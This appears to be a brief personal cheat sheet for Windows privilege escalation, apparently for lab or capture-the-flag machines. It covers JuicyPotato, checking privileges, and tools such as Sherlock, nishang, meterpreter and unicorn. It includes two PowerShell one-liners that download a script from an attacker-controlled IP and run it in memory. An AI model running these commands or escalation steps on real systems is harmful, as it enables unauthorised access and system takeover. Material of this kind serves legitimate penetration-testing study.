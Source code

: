 # privesc

If there is SeImpersonate privilege here you can run the JuicyPotato exploit to get a system shell, and there might be some privileges that you can use if its an AD environment

```text
whoami /priv
```

Once you get a shell on the box, you can run Sherlock to check if you have any vulnerable exploits

```text
iex(new-object net.webclient).downloadstring('http://10.10.14.25/esc.pst1')

# sometimes when powershell doesn't load properly, its worth to try this way
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.25/Sherlock.ps1') | PowerShell -Noprofile -
```

if you're on `meterpreter`, run the exploit suggester with both x86 meterpreter and x64 meterpreter.

```text
# collection of payloads and powershell scripts
https://github.com/samratashok/nishang

# local windows exploit suggester that you can run in you linux machine
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
# to run powershell script on the shell windows machine for exploits
https://github.com/rasta-mouse/Sherlock

# this can be used to get a meterpreter shell once you've got a normal shell
https://github.com/trustedsec/unicorn
```

